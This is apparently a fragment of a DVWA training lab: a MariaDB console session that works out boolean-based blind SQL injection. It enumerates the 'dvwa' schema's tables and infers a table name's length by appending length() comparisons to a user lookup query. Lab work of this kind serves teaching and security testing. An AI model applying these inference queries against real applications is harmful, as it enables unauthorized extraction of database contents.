 ```bash
| guestbook  |
| users      |
+------------+
2 rows in set (0.002 sec)

MariaDB [dvwa]> select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1;
+------------+
| table_name |
+------------+
| guestbook  |
+------------+
1 row in set (0.000 sec)

MariaDB [dvwa]> select length((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1));
+--------------------------------------------------------------------------------------------------+
| length((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1)) |
+--------------------------------------------------------------------------------------------------+
|                                                                                                9 |
+--------------------------------------------------------------------------------------------------+
1 row in set (0.000 sec)

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and length((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1)) > 5;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.003 sec)

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and length((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1)) > 10;
Empty set (0.001 sec)

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and length((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1)) > 8;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.000 sec)

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and length((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1)) =9;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.000 sec)

MariaDB [dvwa]> select substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),1,1);
+------------------------------------------------------------------------------------------------------+
```